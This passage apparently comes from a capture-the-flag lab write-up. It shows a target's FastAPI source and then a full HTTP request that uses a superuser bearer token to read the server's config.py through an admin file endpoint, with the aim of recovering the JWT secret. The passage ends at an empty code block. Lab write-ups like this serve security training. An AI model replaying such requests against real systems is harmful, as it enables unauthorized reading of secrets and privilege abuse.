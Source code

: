 ```python

@app.get("/api/v1", status_code=200)
def list_endpoints_v1():
    """
    Version 1 Endpoints
    """
    return {"endpoints":["user", "admin"]}


@app.get("/docs")
async def get_documentation(
    current_user: User = Depends(deps.parse_token)
    ):
    return get_swagger_ui_html(openapi_url="/openapi.json", title="docs")

@app.get("/openapi.json")
async def openapi(
    current_user: User = Depends(deps.parse_token)
):
    return get_openapi(title = "FastAPI", version="0.1.0", routes=app.routes)

app.include_router(api_router, prefix=settings.API_V1_STR)
app.include_router(root_router)

def start():
    import uvicorn

    uvicorn.run(app, host="0.0.0.0", port=8001, log_level="debug")

if __name__ == "__main__":
    # Use this for debugging purposes only
    import uvicorn

    uvicorn.run(app, host="0.0.0.0", port=8001, log_level="debug")
```
As we can see in the initial declararion we can see that this file is importing configurations from:  
```python
from app.core.config import settings
```
So we can try to download this file as well and see if it contains the JWT token:  
```http
POST /api/v1/admin/file HTTP/1.1
Host: 10.10.11.161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.161/docs
Content-Type: application/json
Origin: http://10.10.11.161
Content-Length: 48
Connection: close
Sec-GPC: 1
Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU5NjMzMjE5LCJpYXQiOjE2NTg5NDIwMTksInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.6pBW4BPGXUva9_et2wRTmi69Iy9h7Oxs4vssoNTXh2s

{
  "file": "/home/htb/uhc/app/core/config.py"
}
```
After some edits, we can see the source:  
```python
```